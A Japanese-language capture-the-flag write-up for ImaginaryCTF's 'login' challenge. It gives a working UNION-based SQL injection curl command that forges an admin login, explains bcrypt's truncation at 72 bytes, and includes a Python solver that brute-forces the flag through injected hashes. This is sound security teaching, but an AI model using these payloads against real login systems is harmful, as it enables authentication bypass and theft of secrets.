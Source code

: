 ```sh
$ php -r "echo password_hash('test', PASSWORD_DEFAULT);"
$2y$10$XmEkdpBqwnMU/0jXzLA3q.nX1io/A5Y24G9E9GN1TIAiqOEIjIydu
```

```sh
curl -X POST http://login.chal.imaginaryctf.org/  --data-urlencode $'username=\'union select \'admin\',\'$2y$10$XmEkdpBqwnMU/0jXzLA3q.nX1io/A5Y24G9E9GN1TIAiqOEIjIydu\';-- -' -d "password=test" -s | grep magic
            Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 -->        </p>
```

- magicの値が`688a35c685a7a654abc80f8e123ad9f0`だということが分かった。

次にパスワードの後ろにフラグが結合されるため、password_verify関数で判別する必要がある。  
また、`username=admin&password[]=test`等でSQLエラーを発生すると、レスポンスに`$2y$10$Is00vB1h...`が出力されることから、パスワードにはBcryptが使われていると推測できる。  
Bcryptの場合は、password_verify時にパスワードが73文字以降は切り捨てられるため、差分で確認が可能。

- <https://www.php.net/manual/ja/function.password-hash.php#refsect1-function.password-hash-parameters>

例えば、passwordにAを71文字入力すると、フラグが後ろに付与されるため、`AAA...AAAictf{...`のような文字列になるが、password_verifyで確認されるパスワードは`AAA..AAAi`が確認される。  
ここまで分かれば、後はその値のハッシュが正しくなるまで一文字ずつ総当たりすれば良い。

- solver.py

```py:solver.py
#!/usr/local/bin/python
import requests
import bcrypt

TARGET = "http://login.chal.imaginaryctf.org/"
KEYS = list("abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ .:,~^)(=-_&@#!\"$%?}{")
SALT = bcrypt.gensalt(rounds=10, prefix=b'2b')

def search(flag: str = ""):
  print(flag)
  for key in KEYS:
    offset = "A" * (71 - len(flag))
    hash = bcrypt.hashpw((offset + flag + key).encode(), SALT).decode()
    payload = {
      "username": f"'union select 'admin','{hash}';-- -", 
      "password": offset
    }
    result = requests.post(f'{TARGET}?688a35c685a7a654abc80f8e123ad9f0', data=payload)
    # print(result.request.body)
    if "Welcome admin!" in result.text:
      return search(flag + key)
  return flag

print(f"flag={search()}")
```

